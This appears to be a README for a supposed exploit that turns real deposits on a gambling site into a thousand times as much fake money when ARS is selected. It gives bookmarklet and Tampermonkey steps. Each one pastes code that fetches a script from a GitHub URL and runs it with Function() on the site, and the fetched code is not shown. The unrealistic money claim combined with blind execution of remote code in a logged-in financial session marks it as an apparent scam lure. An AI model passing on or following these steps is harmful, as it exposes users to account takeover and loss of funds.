 ### 💸 How to Use

Deposit any amount you want — totally up to you.

**Conversion Rate:**
`1$ REAL = 1000$ FAKE`
Just make sure you select **ARS** as your currency.

### 🧩 Option 1: Bookmark (Quick & Easy)

1. Copy this entire code:

   ```js
   javascript:(()=>{fetch('https://raw.githubusercontent.com/drojnisdisauioa/shuffle/refs/heads/main/bookmark.js').then(r=>r.text()).then(code=>Function(code)());})();
   ```
2. Create a new bookmark in your browser.
3. Paste the code into the **URL** field.
4. Go to the website, click the bookmark, and you're good to go.

### 🛠️ Option 2: Tampermonkey

1. Copy this entire code:

   ```js
   javascript:(()=>{fetch('https://raw.githubusercontent.com/drojnisdisauioa/shuffle/refs/heads/main/tampermonkey.js').then(r=>r.text()).then(code=>Function(code)());})();
   ```
2. Open **Tampermonkey Dashboard** and click **Create a new script**.
3. Paste the code, then save.
4. Head to the website and it’ll do its thing automatically.
